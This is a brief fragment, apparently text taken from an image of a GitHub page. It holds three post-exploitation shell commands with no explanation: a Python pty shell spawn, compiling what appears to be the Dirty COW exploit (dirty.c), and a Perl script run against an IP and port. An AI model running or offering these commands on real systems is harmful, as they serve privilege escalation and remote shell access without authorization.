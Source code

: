 python -c 'import pty; pty.spawn("/bin/sh")'

gcc -pthread dirty.c -o dirty -lcrypt

--------------------------------------------------------------------
perl root.pl [ip] [port]
